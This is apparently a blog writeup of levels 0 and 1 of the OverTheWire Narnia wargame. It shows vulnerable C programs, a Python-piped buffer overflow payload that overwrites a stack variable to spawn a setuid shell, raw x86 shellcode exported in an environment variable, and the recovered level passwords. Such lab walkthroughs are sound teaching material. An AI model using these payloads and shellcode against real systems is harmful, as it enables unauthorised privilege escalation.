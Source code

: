 ```yaml
---
layout: post
title: narnia-writeup-00-01
excerpt: "Writeup for the Narnia (L00 & L01)  wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / narina](http://www.overthewire.org/wargames/narnia/)

## Level 0 ##

As per [Narnia's introduction page](http://overthewire.org/wargames/narnia/), we first ssh into the box (`ssh narnia0@narnia.labs.overthewire.org -p 2226`). The challenges are located in `/narnia`. Let's take a look at the first one.

``` shell
narnia0@narnia:~$ pwd                                                                                   /home/narnia0                                                                                           narnia0@narnia:~$ cd /narnia                                                                            narnia0@narnia:/narnia$ ls                                                                              narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8         narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c       
```

This is the contents of the one we're interested in:

``` c
#include <stdio.h>                                                                                      #include <stdlib.h>                                                                                                                                                                                             int main(){                                                                                                     long val=0x41414141;                                                                                    char buf[20];                                                                                                                                                                                                   printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");                                         printf("Here is your chance: ");                                                                        scanf("%24s",&buf);                                                                                                                                                                                             printf("buf: %s\n",buf);                                                                                printf("val: 0x%08x\n",val);                                                                                                                                                                                    if(val==0xdeadbeef)                                                                                             system("/bin/sh");                                                                              else {                                                                                                          printf("WAY OFF!!!!\n");                                                                                exit(1);                                                                                        }                                                                                                                                                                                                               return 0;                                                                                       }                    
```

If we somehow get `val` to be equal to `0xdeadbeef`, the programm will execute a `/bin/sh`. Because this program as the sticky bit set and is owned by `narnia1`, this would escalate our privileges:

``` shell
narnia0@narnia:/narnia$ ls -l narnia0
-r-sr-x--- 1 narnia1 narnia0 7460 May 23 13:20 narnia0
```

From the source code we see that `buf` is located after `val`. This means that on the stack, overflowing `buf` (which is only 20 characters long) will cause it to start overriding `val`. This should be relatively straightforward:

``` shell
narnia0@narnia:/narnia$ ./narnia0                                                                       Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: AAAAAAAAAAAAAAAAAAAA                                                               buf: AAAAAAAAAAAAAAAAAAAA                                                                               val: 0x41414100                                                                                         WAY OFF!!!!
```

Now it turns out the box has Python installed. So let's use that:

``` shell
narnia0@narnia:/narnia$ python --version                                                                Python 2.7.6                                                                                            
narnia0@narnia:/narnia$ python -c "print 'A'*20 + '\xad\xde'" | ./narnia0                               Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: buf: AAAAAAAAAAAAAAAAAAAA��                                                        val: 0x4100dead                                                                                         WAY OFF!!!!
```

Note the byte order (we're on a little indian machine). From there it's easy to extrapolate:

``` shell
narnia0@narnia:/narnia$ python -c "print 'A'*20 + '\xef\xbe\xad\xde'" | ./narnia0                       Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�                                                        val: 0xdeadbeef 
narnia0@narnia:/narnia$ whoami
narnia0
```

Mmm. So we managed to overwrite `val` but 'nothing' happened. It turns out the pipe (`|`) sends EOF once done, which closes the shell (`system` does not spawn a separate process but replaced the current one). We need to find a way to hold it open whilst accepting user input. `cat` to the rescue:

``` shell
narnia0@narnia:/narnia$ (python -c "print 'A'*20 + '\xef\xbe\xad\xde'";cat) | ./narnia0                 Correct val's value from 0x41414141 -> 0xdeadbeef!                                                      Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�                                                        val: 0xdeadbeef                                                                                         whoami                                                                                                  narnia1                                                                                                 cat /etc/narnia_pass/narnia1                                                                            efeidiedae
```

Done!

## Level 1 ##

Along the same lines as the one above, this is the source code given to us:

``` c
#include <stdio.h>

int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
```

The aim is to store some special code (shellcode) into `EGG` which, when executed, will cause the program to give us a shell with escalated privileges.

I so happen to have some [shellcode lying around](http://perso.heavyberry.com/articles/2016-12/sec_bufferoverflow). Writing shellcode is beyond the scope of this post though.

``` shell
narnia1@narnia:/narnia$ export EGG=$(printf "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80")
narnia1@narnia:/narnia$ echo $EGG
1▒1ə▒▒̀j
       XQh//shh/bin▒▒▒▒
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

Easy peasy.
